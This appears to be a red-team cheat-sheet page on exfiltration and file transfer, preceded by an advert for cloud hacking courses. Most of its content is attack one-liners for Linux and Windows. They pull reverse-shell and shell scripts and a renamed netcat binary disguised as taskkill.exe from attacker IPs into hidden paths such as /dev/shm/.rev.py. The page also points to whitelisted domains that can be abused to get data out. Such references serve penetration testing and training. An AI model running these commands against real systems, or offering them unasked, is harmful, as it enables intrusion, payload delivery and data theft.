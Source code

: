 # Exfiltration

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

## Commonly whitelisted domains to exfiltrate information

Check [https://lots-project.com/](https://lots-project.com/) to find commonly whitelisted domains that can be abused

## Copy\&Paste Base64

**Linux**

```bash
base64 -w0 <file> #Encode file
base64 -d file #Decode file
```

**Windows**

```
certutil -encode payload.dll payload.b64
certutil -decode payload.b64 payload.dll
```

## HTTP

**Linux**

```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```

**Windows**

```bash
certutil -urlcache -split -f http://webserver/payload.b64 payload.b64
bitsadmin /transfer transfName /priority high http://example.com/examplefile.pdf C:\downloads\examplefile.pdf

#PS
(New-Object Net.WebClient).DownloadFile("http://10.10.14.2:80/taskkill.exe","C:\Windows\Temp\taskkill.exe")
Invoke-WebRequest "http://10.10.14.2:80/taskkill.exe" -OutFile "taskkill.exe"
wget "http://10.10.14.2/nc.bat.exe" -OutFile "C:\ProgramData\unifivideo\taskkill.exe"

Import-Module BitsTransfer
Start-BitsTransfer -Source $url -Destination $output
#OR
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
```
